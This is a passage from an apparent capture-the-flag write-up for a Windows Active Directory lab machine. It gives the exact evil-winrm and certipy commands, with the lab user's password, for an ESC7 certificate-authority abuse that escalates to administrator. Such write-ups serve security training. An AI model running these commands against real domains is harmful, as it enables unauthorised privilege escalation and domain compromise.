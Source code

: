 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919115157.png)

Now we can connect via evil-winrm and grab user flag

```
evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919115349.png)

## Privilege Escalation

In AD set for privilege escalation there is 2 good ways to start:
1 run bloodhound
2 check certificates

While downloading bloodhound data I ran certipy to check certs and I got it

```
certipy-ad find -u "raven" -p 'R4v3nBe5tD3veloP3r!123' -target manager.htb -stdout -vulnerable -dc-ip 10.10.11.236
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919120427.png)

And we got ESC7, you can read more about it here:
https://academy.hackthebox.com/course/preview/adcs-attacks
First we need to add raven to Manage Certificates permission

```
certipy-ad ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919121104.png)

And next we requesting for administrator pfx

```
certipy-ad req -ca manager-DC01-CA -target dc.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919124610.png)

Attempt fails but we can save key, next we need to issue request

```
certipy-ad ca -ca manager-DC01-CA -issue-request 28 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919124710.png)

And next step is to retrieve our certificate

```
certipy-ad req -ca manager-DC01-CA -target dc.manager.htb -retrieve 28 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
